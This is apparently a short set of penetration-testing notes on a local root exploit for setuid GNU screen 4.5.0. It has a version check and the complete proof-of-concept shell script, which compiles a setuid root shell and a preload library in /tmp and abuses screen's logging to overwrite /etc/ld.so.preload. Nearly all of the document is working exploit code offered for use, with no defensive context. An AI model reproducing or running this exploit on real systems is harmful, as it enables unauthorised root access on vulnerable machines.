 - Screen Version Identification: a popular vulnerable terminal multiplexer screen (4.5.0)
```bash
screen -v
```
- Privilege Escalation - Screen_Exploit.sh
```bash
./screen_exploit.sh
```
- Screen_Exploit_POC.sh
```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```
